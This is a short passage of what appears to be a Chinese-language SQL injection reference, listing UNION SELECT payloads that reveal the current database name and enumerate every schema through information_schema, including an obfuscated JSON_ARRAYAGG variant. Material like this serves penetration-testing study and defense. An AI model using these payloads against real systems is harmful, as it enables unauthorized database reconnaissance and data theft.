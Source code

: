 ![image-20250221225909790](static/image/image-20250221225909790.png)

#### 查询数据库名

```mysql
# 查询当前数据库名
union select null,group_concat(database()),null
union select 1,group_concat(database()),3

# 查询所有数据库名
union select null,group_concat(schema_name),null from information_schema.schemata
UNION ALL SELECT NULL,CONCAT(0x7e,JSON_ARRAYAGG(CONCAT_WS('',schema_name)),0x7e),NULL FROM INFORMATION_SCHEMA.SCHEMATA
```

```
查询当前数据库名
```
